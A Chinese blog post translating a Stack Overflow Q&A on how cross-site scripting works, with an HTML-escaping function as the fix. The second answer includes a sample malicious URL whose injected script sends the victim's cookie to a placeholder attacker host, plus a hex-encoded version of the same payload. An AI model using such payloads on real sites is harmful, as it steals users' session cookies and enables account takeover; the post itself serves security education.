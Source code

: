 ```yaml
---
title: XSS 工作原理
sticky: 0
copyright: false
date: 2017-12-17 19:09:00
categories:
- stackoverflow 高赞翻译
tags:
- stackoverflow
- XSS
- 网络安全
---
```


> **文章原址：** https://stackoverflow.com/questions/239194/how-does-xss-work

<!-- more -->

# 问题描述：

能不能用简单的语言介绍一下 XSS 的工作原理，最好举一个例子，谷歌不能很好的检索这个问题。
(Ask by  **Vicky**)

# 高赞回答

当 XSS 存在时，外部应用程序的字符串被解释为代码。
如果你的 HTML 是这样的：

```xml
<BODY>
  <?= $myQueryParameter ?>
</BODY>
```

如果变量 `$myQueryParameter` 包含一个 `<SCRIPT>` 标签，它将最终执行（`<SCRIPT>` 中的）代码。
为了防止输入作为代码执行，必须恰当的**转义**某些内容。
上面的问题可以通过让变量 `$myQueryParameter` 包含纯文本解决，但不能把纯文本直接放到HTML中并期望它执行。
所以让纯文本变成 HTML，这样才能让它在 HTML 页面中显示。将一种语言的字符串转换成另一种语言就可以嵌入了。
你可以执行一个函数来把纯文本转义成 HTML，如：

```js
function escapePlainTextToHTML(plainText) {
  return plainText.replace(/\0/g, '')
      .replace(/&/g, '&amp;')
      .replace(/</g, '&lt;')
      .replace(/>/g, '&gt;')
      .replace(/"/g, '&#34;')
      .replace(/'/g, '&#39;');
}
```

（answered by <B>[Mike Samuel](https://stackoverflow.com/users/20394/mike-samuel)</B>）

---

跨站脚本（XSS）主要是动态网站页面的安全漏洞，攻击者创建一个恶意链接向网站植入可执行的恶意 JavaScript 代码。大多数情况下，这种漏洞在 GET 变量无需过滤或检测内容就能输出或响应时复现。
当受害人点击链接，恶意代码能发送受害人的 cookie 到另一台服务器，或者修改受影响的站点，注入表单，窃取用户名和密码，和其他钓鱼诈骗方法。
恶意链接例子：

```
http://VulnerableHost/a.php?variable=<script>document.location='http://AttackersHost/cgi-bin/cookie.cgi%3Fdata='+document.cookie</script>
```

也能编译恶意代码，十六进制如下：

```
http://VulnerableHost/a.php?variable=%22%3E%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%6C%6F%63%61%74%69%6F%6E%3D%27%68%74%74%70%3A%2F%2F%41%74%74%61%63%6B%65%72%73%48%6F%73%74%2F%63%67%69%2D%62%69%6E%2F%63%6F%6F%6B%69%65%2E%63%67%69%3F%20%27%2B%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3C%2F%73%63%72%69%70%74%3E
```
（answered by <B>[CMS](https://stackoverflow.com/users/5445/cms)</B>）
